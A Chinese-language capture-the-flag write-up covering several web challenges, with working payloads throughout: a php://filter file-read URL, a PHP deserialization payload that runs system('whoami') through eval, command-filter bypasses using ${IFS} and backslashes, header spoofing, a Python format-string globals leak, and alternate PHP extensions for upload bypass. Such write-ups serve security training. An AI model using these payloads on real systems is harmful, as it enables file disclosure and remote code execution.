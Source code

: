 ## baby-file

![[Pasted image 20231206085736.png]]
#### payload：
82.157.146.43:17682/?file=php://filter/convert.base64-encode/resource=flag.php
然后base64解码查看flag的源码




## object
源码：
```php
 <?php
error_reporting(0);
//flag在flag.php里
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}


if (!isset($_GET['fl']) || !isset($_GET['ag'])) {
    die(@highlight_file('index.php',true));
}
else {
    if (!(preg_match('/[A-Za-z0-9]+\(/i', $_GET['fl']))) {
        die('hack!!!');
    }
    else {
        echo unserialize($_GET['ag']);
    }
} 

```

发现ag是一个序列化后的字符串，调用unserialize前并没有对ag进行过滤处理，这个函数参数可以是integer、float、string、array 或 object，如果传递的字符串不可解序列化，则返回 FALSE，若被解序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用  `wakeup()`

回到这个代码：
class flag中，定义了析构函数`__destruct`，在 成员变量 `$cmd` 可以通过 正则表达式验证的情况，则可以构造任意字符串，利用 `eval` 执行。`/\w+\((?R)?\)/`这个正则，可能意在匹配一个函数，但是`(?R)`这个后面有一个`?`，匹配零次或一次，相当于可以忽略

再看`eval('$a="'.$this->cmd.'";');`,可以构造payload
```php
1";phpinfo();highlight_file("flag.php");system("whoami");"
```

所以把这个payload序列化一下：
```php
<?php
// 照抄一份flag类的定义
class flag
{
    public $cmd='index.php';

    public function __destruct(){
        if (preg_match('/\w+\((?R)?\)/', $this->cmd)){
            eval('$a="'.$this->cmd.'";');
        }
        else {
            die('hack!!!');
        }
    }
}
$class = new flag();
$class->cmd = '1";phpinfo();highlight_file("flag.php");system("whoami");"';
$class_ser = serialize($class);
print_r($class_ser);

```
输出
```bash
O:4:"flag":1:{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```
payload：
```
?fl=a
(&ag=O:4:"flag":1{s:3:"cmd";s:55:"1";time();highlight_file("flag.php");system("whoami");"";}
```

尝试后失败：
原因：
unserialize后的变量类型为object，而 echo不能直接输出未实现__toString方法的 object变量。但是我们无法去更改后台源码
灵活调整一下：找一种echo可以输出的东西，并且这个东西可以携带对象。能想到的是Array，键名随机，value值弄成对象即可。把该数组进行序列化。
```php
// class flag略，同上
$obj = new flag();
$obj->cmd='1";phpinfo();highlight_file("flag.php");system("whoami");"';
echo serialize(array(
    'a' => $obj
));
echo '<br>';
echo unserialize($_GET['a']);

```
输出：
```bash
a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 

```
再次尝试成功:
```
?fl=a(&ag=a:1:{s:1:"a";O:4:"flag":1:{s:3:"cmd";s:58:"1";phpinfo();highlight_file("flag.php");system("whoami");"";}}$a="1";phpinfo();highlight_file("flag.php");system("whoami");""; 
```



##  babeRCE

源码：
![[Pasted image 20231206102006.png]]

关于绕过空格:
本来有两种方法：
1.${IFS}
2.$IFS$9
但是这里过滤了数字 所以选择第一中绕过

关于限制关键词
1.可以用反斜杠绕过：
```
ca/t${IFS}fla/g.php
```
2.可以采用空变量来绕过:
```
ca$@t${IFS}fla$@g.php
```





## do you know http

X-Forwarded-For:127.0.0.1
Referer:www.ltyyds.com
User-Agent:LT




##  fake galgame

### 原型链污染

原型对象：
JavaScript 中所有的对象都有一个内置属性，称为它的 **prototype**（原型）。它本身是一个对象，故原型对象也会有它自己的原型，逐渐构成了**原型链**。原型链终止于拥有 **null** 作为其原型的对象上

但是：：：
指向对象原型的属性并**不**是 `prototype`。它的名字不是标准的，但实际上所有浏览器都使用   
`__proto__`  
访问对象原型的标准方法是 Object.getPrototypeOf()

原型对象的属性不是实例对象自身的属性。只要修改原型对象，变动就立刻会体现在所有实例对象上

#### 总结：
原型对象的作用，就是定义所有 实例对象 共享的属性和方法。这也是它被称为原型对象的原因，而实例对象可以视作从原型对象衍生出来的子对象。
![[Pasted image 20231206113125.png]]
![[Pasted image 20231206113108.png]]



## 地狱通信

![[Pasted image 20231206115236.png]]


在format之前exp已经拼接进去了，由于`{0}`是flAg（经过FLAG方法处理，可能是与flag相关的对象），构造`exp={0.__class__.__init__.__globals__}`，读取flAg对象所在类的所有全局变量，找到flag




## ezphp
![[Pasted image 20231206141711.png]]






?a=flag&flag=a




php3，php5，pht，phtml，phps都是php可运行的文件扩展名
